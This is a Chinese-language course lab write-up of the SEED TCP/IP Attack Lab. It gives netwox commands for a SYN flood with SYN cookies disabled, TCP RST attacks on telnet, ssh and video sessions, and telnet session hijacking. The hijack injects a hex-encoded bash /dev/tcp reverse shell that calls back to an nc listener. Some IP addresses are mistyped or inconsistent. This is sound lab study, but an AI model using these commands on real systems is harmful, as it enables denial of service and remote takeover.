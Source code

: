 ```yaml
---
title: 'Seed Labs: TCP/IP Attack Lab'
tags:
  - Seed Labs
  - TCP/IP
categories:  
  - Network
abbrlink: 47949
date: 2018-01-12 18:34:41
---
```


　　网络与计算机安全课程实验（二），TCP/IP 攻击。

<!--more-->

#### 实验原理与目的

　　TCP/IP 协议从开始设计时候并没有考虑到现在网络上如此多的威胁，由此导致了许多形形色色的攻击方法。本次实验涉及了 TCP/IP 攻击的三种基本类型，（1）SYN 洪泛攻击，（2）TCP RST 攻击，（3）TCP 会话劫持攻击。希望通过本次实验了解 TCP/IP 攻击的原理，通过实际操作掌握基本的攻击方法，学会如何防范此类攻击。

#### 实验配置

　　基本配置与上一个实验：Local DNS Attack Lab 基本一致。按照实验指导手册，配置 3 台虚拟机，1 台作为 DNS 服务器，1 台作为用户机，另 1 台作为攻击者，3 台机器通过设置 NAT 网络来实现网络互访。

　　实验资料下载地址：[http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/)

![12-1](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-1.png)

##### 启用 telnet 服务器

　　对于本实验，实验要求启用 ftp 和 telnet 服务器，但是其实在后续的实验中只用到了 telnet。为了安全起见， Ubuntu 系统中安装的这些服务通常是默认禁用的，所以需要以 root 用户身份运行以下命令来启用：

```shell
$ sudo service vsftpd start
$ sudo service openbsd-inetd start
```

#### 实验过程
##### SYN 洪泛攻击

　　SYN 洪泛是 DoS 攻击的一种形式，攻击者向受害者的 TCP 端口发送多个 SYN 请求，但是攻击者无意完成三次握手过程。攻击者要么使用欺骗性的 IP 地址，要么不要继续这个过程。通过这种攻击，攻击者可以淹没用于半开连接的受害者队列，即完成 SYN，SYN-ACK 但尚未得到最终 ACK 的连接。当这个队列已满时，受害者不能再进行连接。

　　队列的大小有一个系统范围的设置。在 Linux 中，我们可以使用以下命令检查设置：
```shell
$ sysctl -q net.ipv4.tcp_max_syn_backlog
```

　　我们可以使用命令 “netstat -na” 来检查队列的使用情况，即与监听端口关联的半开连接的数量。这种连接的状态是 SYN-RECV。如果三次握手完成，连接的状态将建立。

![12-2](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-2.png)

　　Netwox 编号为 76 的工具提供了 SYN 洪泛攻击的基本功能，输入 “netwox 76 --help” 可以获取如下帮助信息。

![12-3](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-3.png)

　　首先在用户机上使用 telnet 192.168.0.10 命令测试 telnet 连接是否可用，验证可以成功登陆后即退出，然后攻击者开始使用如下命令发起攻击：

```shell
$ sudo netwox 76 --dst-ip 192.168.0.10 --dst-port 23
```

　　然后，用户机再次通过 telnet 连接到服务器，此时发现依然可以连接，按照实验指导手册所说，我们需要检查机器是否已经开启 SYN cookie 机制，SYN cookie 是抵御 SYN 洪泛攻击的防御机制。我们可以使用 sysctl 命令查看、打开和关闭 SYN cookie 机制，使用如下命令查看 SYN cookie 机制的设置情况：

```shell
$ sysctl -a | grep cookie
```

　　可以看到默认情况下， SYN cookie 机制是启用的，所以先将其关闭后再尝试攻击，使用如下命令将其关闭：

```shell
$ sysctl -w net.ipv4.tcp_syncookies=0
```

![12-4](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-4.png)

　　此时，再次发起攻击，并尝试再次使用 telnet 连接到服务器，发现已经无法连接到服务器了，如下：

![12-5](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-5.png)

　　当然，你也可以通过 wireshark 抓包来查看攻击者发送的数据包。实验完成后，再使用如下命令将 SYN cookie 机制打开，以防止 SYN 洪泛攻击。

```shell
$ sysctl -w net.ipv4.tcp_syncookies=1
```

##### TCP RST 攻击 telnet 和 ssh 连接

　　RST 表示复位，用来异常的关闭连接，在 TCP 的设计中它是不可或缺的。发送 RST 包关闭连接时，不必等缓冲区的包都发出去，直接就丢弃缓存区的包发送 RST 包。而接收端收到 RST 包后，也不必发送 ACK 包来确认。TCP RST 攻击可以终止两个受害者之间建立的 TCP 连接。例如，如果两个用户 A 和 B 之间建立了 Telnet 连接（TCP），则攻击者可以将 A 到 B 的 RST 数据包进行欺骗，从而破坏现有的连接。为了在这次攻击中取得成功，攻击者需要正确构造 TCP RST 数据包。Netwox 编号为78的工具提供了 RST 攻击的基本功能，输入 “netwox 78 --help” 可以获取如下帮助信息。

![12-6](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-6.png)

　　在用户机上使用 telnet 命令连接到服务器，登录成功以后，攻击者发起 RST 攻击，通过 netwox 78 号工具伪造 RST 包发送给服务器，命令如下：

```shell
$ netwox 78 –i 1921.68.0.10
```

　　命令运行后悔使得用户机与服务器的 telnet 连接中断，攻击效果如下图：

![12-7](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-7.png)

　　在用户机上使用 ssh 命令连接到服务器，登录成功以后，攻击者发起 RST 攻击，通过 netwox 78 号工具伪造 RST 包发送给服务器，使得用户机与服务器的 SSH 连接中断，实验效果如下图：

![12-8](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-8.png)

##### TCP RST 攻击视频流应用程序

　　实验原理与任务2相同。TCP RST 攻击终会止两个受害者之间建立的 TCP 连接。在用户机上使用浏览器访问优酷的视频，攻击者向用户发起 RST 攻击，再刷新浏览器页面时即显示，为了在这次攻击中取得成功，攻击者需要正确构造 TCP RST 数据包。
　　Netwox 编号为 78 的工具提供了 RST 攻击的基本功能攻击命令，通过 netwox 78 号工具伪造 RST 包发送给服务器，命令如下：

```shell
$ netwox 78 –i 1921.68.0.100
```

　　攻击效果如下图，正常观看视频，发起攻击再刷新页面后TCP连接断开，页面崩溃。

![12-9](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-9.png)

![12-10](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-10.png)

##### TCP 会话劫持

　　开启 wireshark，并设置过滤器 --filter telnet，然后开始监控局域网内的流量。用户开始使用 telnet 连接到服务器，分析 telnet 连接建立时发送的数据包，然后根据其特征伪造相应的数据包来劫持会话。

![12-11](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-11.png)

　　Netwox 编号为 40 的工具提供了 SYN 洪泛攻击的基本功能，输入 “netwox 40 --help” 可以获取如下帮助信息。

![12-12](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-12.png)

　　使用 netwox 的 40 号工具，根据抓包数据的 TCP 源端口目的端口填写 tcp-src 和 tcp-dst，根据 IP 包的源地址目的地址填写 ip4-src 和 ip4-dst，根据用户机发送给服务器的最后一个数据包的 Next sequence nuber 字段填写 tcp-seqnum，根据服务器发送给用户机的最后一个数据包的 Acknowledgement number 字段填写 tcp-acknum，根据 IP 包的 TTL 字段填写 ip4-ttl，根据 IP 包的协议字段填写 ip4-protocol ，然后根据需要填写 tcp-data 字段。加入我们发送ls命令到服务器来查看该目录下有什么文件，将 ls 转换成 16 进制并加上 \r 的 16 进制数，生成我们的命令如下：

```shell
$ sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 59714 --tcp-dst 23 --tcp-seqnum 3089814629 --tcp-acknum 1471714290 --tcp-ack --tcp-psh --tcp-window 128 --tcp-data "6c730d00"
```

　　通过 wireshark 抓包可以看到命令已经发出，效果如下：

![12-13](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-13.png)

　　紧接着，服务器会将该命令的执行结果发送出来，我们同样可以通过抓包查看，如下所示，可以看到 ls 命令的执行结果，即显示该目录下所有文件：

![12-14](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-14.png)

##### 使用 TCP 会话劫持创建反向 Shell

　　设置后门的一个典型方法是从受害者机器运行一个反向外壳，以使外壳访问受害者机器。反向shell是在远程机器上运行的一个 shell 进程，连接到攻击者的机器。攻击者一旦遇到危险，就可以方便地访问远程机器。
　　netcat 程序允许我们指定一个端口号，并可以监听该端口上的连接。我们可以在攻击者机器上，使用如下命令 netcat 监听端口 9090 上的连接：

```shell
$ nc –l 9090 -v
```

　　“/bin/bash -i> /dev/tcp/10.0.2.4/9090 0 <＆1 2>＆1” 会启动一个 bash shell，其输入来自 tcp 连接，其标准错误输出将被重定向到相同的 tcp 连接。将该命令转换成 16 进制，并在最后添加回车的 16 进制代码，即 0x0d00。

　　然后通过上面 3.4 的会话劫持将这个命令发送到服务器，命令如下：

```shell
$ sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 53700 --tcp-dst 23 --tcp-seqnum 3862965514 --tcp-acknum 3719047389 --tcp-window 128 --tcp-urgptr 0 --tcp-data "2F62696E2F62617368202D69203E202F6465762F7463702F3139322E3136382E302E3230302F3930393020303C263120323E26310d00"
```

　　通过 wireshark 抓包可以看到数据包已经构造成功，并且发送到服务器。

![12-15](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-15.png)

　　由于攻击者一直在监听 9090 端口，服务器一旦接收到这个命令就会向攻击者建立连接，从而拿到服务器的 shell，如下图所示 netstat 的输出显示已建立的连接。

![12-16](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/12-16.png)
